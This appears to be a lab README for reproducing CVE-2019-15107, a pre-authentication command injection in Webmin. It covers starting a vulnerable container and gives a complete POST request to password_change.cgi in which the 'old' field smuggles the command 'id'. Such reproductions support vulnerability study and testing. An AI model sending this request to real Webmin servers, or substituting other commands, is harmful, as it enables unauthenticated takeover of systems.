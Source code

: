 # Webmin Pre-Auth Remote Code Execution (CVE-2019-15107)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referrers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incomplete. After reading the code in depth, I found that command can be executed only if the user parameter of the body doesn't exist before 1.920, upon 1.920, no limit.

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
